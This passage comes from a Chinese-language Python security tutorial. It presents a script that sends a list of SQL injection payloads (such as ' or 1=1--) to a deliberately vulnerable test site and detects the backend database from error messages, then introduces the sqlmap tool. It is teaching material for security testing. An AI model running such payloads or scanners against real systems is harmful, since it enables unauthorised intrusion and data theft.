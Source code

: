 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/80922e96-f6b7-442b-afd3-8aab9b8ef063.png)

使用 Python，我们可以构建一个简单的脚本，从`sql-attack-vector.txt`文本文件中读取可能的 SQL 攻击向量，并检查注入特定字符串的输出结果。目标是从识别易受攻击的参数的 URL 开始，并将原始 URL 与攻击向量组合在一起。

您可以在`sql_injection`文件夹中的`test_url_sql_injection.py`文件中找到以下代码：

```py
import requests url = "http://testphp.vulnweb.com/listproducts.php?cat="

with open('sql-attack-vector.txt') as file:
for payload in file:
    print ("Testing "+ url + payload)
    response = requests.post(url+payload)
    #print(response.text)
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected")
        print("Attack string: "+payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected")
        print("Attack string: "+payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected")
        print("Attack string: "+payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle detected")
        print("Attack string: "+payload)
    else:
        print("Not Injectable")
```

您可以在`sql_injection`文件夹中的`sql-attack-vector.txt`文件中找到以下代码：

```py
" or "a"="a
" or "x"="x
" or 0=0 #
" or 0=0 --
" or 1=1 or ""="
" or 1=1--
```

执行`test_url_sql_injection.py`时，我们可以看到易受多个向量攻击的可注入 cat 参数：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/83c0687c-c1ef-4791-89f7-348735a48ee7.png)

# 介绍 SQLmap

SQLmap 是用 Python 编写的最著名的工具之一，用于检测漏洞，例如 SQL 注入。为此，该工具允许对 URL 的参数进行请求，这些参数通过 GET 或 POST 请求指示，并检测某些参数是否容易受攻击，因为参数未正确验证。此外，如果它检测到任何漏洞，它有能力攻击服务器以发现表名，下载数据库，并自动执行 SQL 查询。

在[`sqlmap.org`](http://sqlmap.org)了解更多关于 sqlmap 的信息。

Sqlmap 是一个用 Python 编写的自动化工具，用于查找和利用 SQL 注入漏洞。它可以使用各种技术来发现 SQL 注入漏洞，例如基于布尔的盲目、基于时间的、基于 UNION 查询的和堆叠查询。
